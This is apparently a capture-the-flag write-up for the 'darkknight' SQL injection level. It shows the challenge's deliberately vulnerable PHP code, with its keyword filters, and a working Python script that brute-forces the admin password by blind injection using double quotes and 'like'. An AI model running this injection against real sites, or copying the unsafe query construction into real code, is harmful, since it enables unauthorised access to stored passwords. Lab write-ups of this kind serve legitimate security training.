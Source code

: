 # darkknight

--------

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

Here We have to get the password using blind injection and give that as the value to complete the level. But here we can't use single quotes or `substr` or `ascii` or `=`. So we will have to inject on the no parameter and use `"`

So I made a script to do that :

```python
import requests
import string

session = requests.Session()

url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?no=0 or pw like "{}%"'
cookies = {"PHPSESSID": "t2olebiumhrkeldqqkd0g2c5q0"}
pw = ""
for j in range(10):
    for i in string.printable:
        r = requests.get(url.format(pw+i), cookies=cookies)
        if('Hello admin' in r.text[:200] and i not in "#%&"):
            pw += i
            print("Password :", pw)
            break

print("Password :", pw)
```

It gave the password as `0b70ea1f` and giving that as the value of pw solved the level
